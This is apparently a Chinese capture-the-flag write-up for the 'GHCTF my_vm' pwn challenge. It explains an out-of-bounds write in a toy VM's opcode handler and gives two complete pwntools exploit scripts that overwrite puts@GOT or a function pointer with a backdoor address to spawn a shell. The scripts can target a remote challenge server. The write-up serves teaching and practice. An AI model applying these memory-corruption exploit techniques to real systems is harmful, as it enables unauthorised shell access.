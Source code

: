 ```yaml
---
title: GHCTF my_vm
---
```

# GHCTF my_vm

## ida分析

### main函数分析
![图片过期](https://img.picui.cn/free/2025/03/07/67cad4a470919.png)

1.存在backdoor()函数，点开发现system("/bin/sh\x00").可以直接利用这个地址0x400877.
2.funcptr会调用my_print,如果可以修改my_print 为backdoor。那就很完美了
3.memory中保存着我们的指令，execute 会按序执行我们的指令，查看这个函数。

### execute函数分析
![图片过期](https://img.picui.cn/free/2025/03/07/67cad6af01ff1.png)
![图片过期](https://img.picui.cn/free/2025/03/07/67cad6aee4df5.png)
![图片过期](https://img.picui.cn/free/2025/03/07/67cad7ed8076c.png)
1.首先看，对op的处理，和对op的限制
2.寻找漏洞。option == 0x90 时，可以对memory上的数据作修改
3.基于此，如果`reg[dest]`设置为负数，那么可以完成对其他数据的修改
4.从第三张图，查看option==0x90 时的汇编，发现赋值指令是movzx(有符号低扩展为有符号高)，所以可以在`reg[]`中写入负数，完成数组的向上越界

## 构造思路
1.首先是，ip和sp。ip从0开始，也就从我们读入的第一个指令执行。sp设置为1，大于0就行
2.接着读入op。我们需要对op作一点处理，便于控制每一个字节

```python
def Code(op,dest,src1,src2):
    code=(op<<24)+(dest<<16)+(src1<<8)+src2
    io.sendline(str(code))
```
通过样的处理，我们可以控制每个字节，便于准确的控制
3.需要找到要覆盖的目标地址，dest_addr. 这一题中可以覆盖func的内容为backdoor.另外，常见的手法可以覆盖got表内容为backdoor .此题中我采用了后者的方法
4.计算对应dest_addr的偏移，这里从汇编中可以看出来，此题中的memory和reg均是以rax*4 来寻址。可知，均是4字节数组.所以对应偏移需要除以4，才能被数组寻到
5.得到偏移之后，利用0x90控制数据，注意到，数据会被改写为src1.因此，在调用前需要将某个reg内写入我们的backdoor
6.最后，因为我们不能直接往reg里写入任意数据，有字节和大小的限制。所以我们需要通过题目提供的运算操作，一步一步修改内容.

## exp 

### 修改puts_got
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=1
url='node1.anna.nssctf.cn'
port=28844
elf=ELF("./my_vm")
if mode == 0:
    io=process("./my_vm")
else :
    io=remote(url,port)

def Code(op,dest,src1,src2):
    code=(op<<24)+(dest<<16)+(src1<<8)+src2
    io.sendline(str(code))

backdoor=0x400877 # system("/bin/sh\x00")

io.sendlineafter("set your IP:","0")
io.sendlineafter("set your SP:","1")
io.sendlineafter("execve:",str(27))

puts_got=0x602018
offset=0x6020e0-0x602018
reg=0x6420E0
memory=0x6020E0
###


###

### Code 
Code(0x10,0,0,0x8)  # reg[0]=0x8
Code(0x10,1,0,0x4)  # reg[1]=0x4
Code(0x40,2,1,0)    # reg[2]=0xc
Code(0x80,3,2,1)    # reg[3]=reg[1]<<reg[1]  : reg[3]=0xc0
Code(0x10,4,0,0x6)  # reg[4]=0x6
Code(0x40,4,4,0)    # reg[4]=0xe
Code(0x40,3,3,4)    # reg[1]=reg[1]+reg[3]   : reg[3]=0xce      
Code(0x10,5,0,0x7)  # reg[5]=0x7
Code(0x40,5,5,0)    # reg[5]=0xf
Code(0x80,6,5,1)    # reg[6]=reg[5]<<reg[1]  : reg[6]=0xf0
Code(0x40,6,6,5)    # reg[6]=reg[5]+reg[6]   : reg[6]=0xff 
Code(0x80,5,6,0)    # reg[5]=reg[6]<<reg[0]  : reg[5]=0xff00
Code(0x40,5,5,6)    # reg[5]=reg[5]+reg[6]   : reg[5]=0xffff
Code(0x80,5,5,0)    # reg[5]=reg[5]<<reg[0]  : reg[5]=0xffff00
Code(0x40,5,5,6)    # reg[5]=reg[5]+reg[6]   : reg[5]=0xffffff
Code(0x80,5,5,0)    # reg[5]=reg[5]<<reg[0]  : reg[5]=0xffffff00
Code(0x40,5,5,3)    # reg[5]=reg[5]+reg[3]   : reg[5]=0xffffffce

#0x400877
Code(0x10,4,0,0x7)  # reg[4]=0x7
Code(0x80,6,4,1)    # reg[6]=reg[4]<<reg[1]  : reg[6]=0x70
Code(0x40,6,6,4)    # reg[6]=reg[6]+reg[4]   : reg[6]=0x770000
Code(0x80,1,1,1)    # reg[1]=reg[1]<<reg[1]  : reg[1]=0x40
Code(0x80,1,1,0)    # reg[1]=reg[1]<<reg[0]  : reg[1]=0x4000
Code(0x80,1,1,0)    # reg[1]=reg[1]<<reg[0]  : reg[1]=0x400000
Code(0x80,0,0,0)    # reg[0]=reg[0]<<reg[0]  : reg[0]=0x800
Code(0x40,0,0,6)    # reg[0]=reg[0]+reg[6]   : reg[0]=0x877
Code(0x40,1,1,0)    # reg[1]=reg[1]+reg[0]   : reg[1]=0x4000877
Code(0x90,5,1,0)    # mem[reg[5]]=reg[1]     : mem[-50]=0x4000877
#gdb.attach(io)
io.interactive()
```

### 覆盖func
```python 
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=0
url='node1.anna.nssctf.cn'
port=28844
elf=ELF("./my_vm")
if mode == 0:
    io=process("./my_vm")
else :
    io=remote(url,port)

def Code(op,dest,src1,src2):
    code=(op<<24)+(dest<<16)+(src1<<8)+src2
    io.sendline(str(code))

io.sendlineafter("set your IP:","0")
io.sendlineafter("set your SP:","1")
io.sendlineafter("execve:",str(14))


### Code 
Code(0x10,0,0,8)   #reg[0]=8
Code(0x10,1,0,0)
Code(0x50,1,1,0)   #reg[1]=-8
Code(0x10,2,0,7)   #reg[2]=7
Code(0x10,4,0,4)   #reg[4]=4
Code(0x80,3,2,4)   #reg[3]=0x70
Code(0x40,3,3,2)   #reg[3]=0x77
### backdoor  
Code(0x80,4,4,4)   #reg[4]=0x40
Code(0x80,4,4,0)   #reg[4]=0x4000
Code(0x80,4,4,0)   #reg[4]=0x400000
Code(0x80,0,0,0)   #reg[0]=0x800
Code(0x40,0,0,3)   #reg[0]=0x877
Code(0x40,4,4,0)   #reg[4]=0x400877
Code(0x90,1,4,0)
io.interactive()

```